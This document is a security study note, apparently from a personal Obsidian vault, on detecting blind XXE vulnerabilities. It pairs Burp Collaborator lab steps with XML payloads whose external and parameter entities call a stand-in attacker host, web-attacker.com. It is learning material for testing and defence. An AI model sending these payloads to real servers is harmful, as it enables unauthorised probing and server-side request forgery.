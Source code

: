 Detecting blind XXE can be done by using the same technique as [XXE to SSRF attacks](obsidian://open?vault=security-notes&file=Offensive%20Security%2FWeb%20Application%20Security%2FServer-side%20Vulnerabilities%2FXXE%20Injection%2FCommon%20XXE%20Attacks%2FChained%20XXE%20to%20SSRF), but triggering the out-of-band network interaction to a system that an attacker control. For example, an attacker can define an external entity as follows:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```
This attack will cause the server to make HTTP request to the specified URL which the attacker can monitor for the resulting DNS lookup and HTTP request, and thereby confirming a successful blind XXE.

1. In Burp Proxy, intercept the request and modify the XML in the request body with the following:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```
2. Right click and select **Insert Collaborator payload**  to insert a Burp Collaborator subdomain where indicated.
3. Go to the Collaborator tab, and click **Poll now**. If you don't see any interactions listed, wait a few seconds and try again. You should see some DNS and HTTP interactions that were initiated by the application as the result of your payload.
## Out-of-band Interaction via XML Parameter Entities
Sometimes, XXE attacks using regular entities are blocked due to input validation by the application or some hardening of the XML parser that is being used. In this situation, an attacker might use XML parameter entities instead, which are a special kind of XML entity which can only be reference within the DTO.

For this technique, an attacker only need to know two things:
1. The declaration of an XML parameter entity includes the percent character before the entity name: `<!ENTITY % myparameterentity "my parameter entity value" >`
2. Parameter entities are referenced using the percent character instead of the usual ampersand: `%myparameterentity;`

This means, an attacker can test for blind XXE with the following payload:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>
<stockCheck><productId>299</productId></stockCheck>
```